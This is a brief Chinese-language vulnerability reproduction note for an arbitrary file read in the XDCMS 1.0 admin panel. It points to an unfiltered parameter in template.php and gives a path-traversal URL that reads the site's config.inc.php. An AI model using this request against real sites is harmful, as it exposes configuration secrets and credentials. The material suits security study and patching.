 XDCMS 1.0 后台任意文件读取
==========================

一、漏洞简介
------------

二、漏洞影响
------------

XDCMS 1.0

三、复现过程
------------

漏洞文件漏洞文件：`system\modules\xdcms\template.php`，同上述xss漏洞相同

![](resource/XDCMS1.0后台任意文件读取/media/rId24.jpg)

第43行未对文件进行限制，从而导致了目录遍历，造成任意文件读取

对GET数据没有过滤

    http://www.0-sec.orv/xdcms/index.php?m=xdcms&c=template&f=edit&file=../../../data/config.inc.php

后台任意文件读取。

![](resource/XDCMS1.0后台任意文件读取/media/rId25.jpg)
